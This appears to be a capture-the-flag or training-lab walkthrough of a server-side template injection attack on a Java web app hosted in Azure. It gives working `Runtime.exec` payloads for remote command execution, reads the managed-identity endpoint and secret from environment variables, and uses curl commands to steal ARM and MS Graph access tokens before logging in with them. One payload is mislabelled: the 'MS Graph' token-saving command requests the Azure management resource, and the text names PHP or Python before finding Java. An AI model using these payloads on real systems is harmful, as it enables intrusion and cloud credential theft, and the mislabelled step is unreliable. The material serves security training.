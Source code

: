 - We can test for various SSTI payloads such as `${7*7}` and `{{7*7}}` in the form, in both fields. The first one works in the second field which means that this web app is vulnerable to SSTI.
- We now have to find the exact language and template framework (either PHP or Python). The payload indicates that Java is running in the background (we can also confirm that using **Wappalyzer** or a similar tool). We can try some payloads from this [resource](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#java) to attempt to execute OS commands by exploiting the SSTI vulnerability.
`${T(java.lang.Runtime).getRuntime().exec('cmd.exe /c "whoami"')}`

- We can use the following payload to extract the OS environment variables.
`${T(java.lang.System).getenv()}`
- We will pay attention to the following variables and their values.
	- `IDENTITY_ENDPOINT=http://127.0.0.1:41393/msi/token/`
	- `IDENTITY_HEADER=7FAC23CAB74C4382B205D4C935CCC9E4`

- We can now leverage the RCE through SSTI to request Access Tokens for the Managed Identity that runs the web app. We will request Access Tokens for both ARM and MS Graph.
	- ARM Access Token Theft Payload -> `${T(java.lang.Runtime).getRuntime().exec('curl "http://127.0.0.1:41393/msi/token/?resource=https://management.azure.com&api-version=2017-09-01" -H secret:"7FAC23CAB74C4382B205D4C935CCC9E4"')}`
		- We can also save the Access Token in a file and read it later. 
		  `${T(java.lang.Runtime).getRuntime().exec('curl "http://127.0.0.1:41393/msi/token/?resource=https://management.azure.com&api-version=2017-09-01" -H secret:"7FAC23CAB74C4382B205D4C935CCC9E4" -o armtoken.txt')}`
		  `${T(java.lang.Runtime).getRuntime().exec('cmd.exe /c "type armtoken.txt"')}`
	- MS Graph Access Token Theft Payload -> `${T(java.lang.Runtime).getRuntime().exec('curl "http://127.0.0.1:41393/msi/token/?resource=https://graph.microsoft.com&api-version=2017-09-01" -H secret:"7FAC23CAB74C4382B205D4C935CCC9E4"')}`
		- We can also save the Access Token in a file and read it later. 
		  `${T(java.lang.Runtime).getRuntime().exec('curl "http://127.0.0.1:41393/msi/token/?resource=https://management.azure.com&api-version=2017-09-01" -H secret:"7FAC23CAB74C4382B205D4C935CCC9E4" -o msgraphtoken.txt')}`
		  `${T(java.lang.Runtime).getRuntime().exec('cmd.exe /c "type msgraphtoken.txt"')}`

- We can now use the stolen Access Tokens to authenticate to Azure as that Managed Identity.
```powershell
PS /home/pri3st/Desktop/Training/AlteredSecurity/CAWASP> $armtoken = 'eyJ0...xD38OQ'
PS /home/pri3st/Desktop/Training/AlteredSecurity/CAWASP> $msgraphtoken = 'eyJ0e...Z9xjiw'
PS /home/pri3st/Desktop/Training/AlteredSecurity/CAWASP> Connect-AzAccount -AccessToken $armtoken -MicrosoftGraphAccessToken $msgraphtoken -AccountId 1B43313C-BF36-499B-A57B-A74C729EAA9E                              

Account                              SubscriptionName TenantId                             Environment
-------                              ---------------- --------                             -----------
1B43313C-BF36-499B-A57B-A74C729EAA9E                  e7ec98df-e820-4b81-9efd-1b14139b8061 AzureCloud
```
